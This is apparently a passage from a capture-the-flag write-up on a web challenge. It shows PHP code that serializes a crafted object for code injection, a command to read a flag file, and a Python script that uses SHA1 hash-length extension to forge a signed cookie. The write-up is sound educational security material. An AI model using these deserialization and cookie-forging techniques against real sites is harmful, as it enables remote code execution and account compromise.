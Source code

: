 ```php
   protected $text = "test";
   protected $filters;

   function __construct() {
        global $filterobject;
        $this->filters = $filterobject;
   }

}

print  "\n".serialize(new Post));
```

saved the output to a file (because the serialized objects may contain non printable characters
URL encoded it, and tried to send it to my local server.

The result was the following

{% img center /images/2014/pico/steveslist/injected.png %}

Ok, now i had an object that would allow me to execute arbitrary code on the remote server.

I replaced the payload with a cat /home/daedalus/flag.txt and used the following python snipplet to calculate the hash and produce proper padding

```python
	#!/usr/bin/python

	import sys
	import struct
	import hlextend
	import urllib

	object = ""

	with open("rawcookie.bin", "rb") as f:
		byte = f.read(1)
		while byte != "":
			object += byte
			byte = f.read(1)

	print object

	sha = hlextend.new('sha1')

	meh = sha.extend(object, 'b:1;', 8, '2141b332222df459fd212440824a35e63d37ef69')

	print meh

	print sha.hexdigest()
```

here is an hex representation of the custom_settings cookie without URL encoding
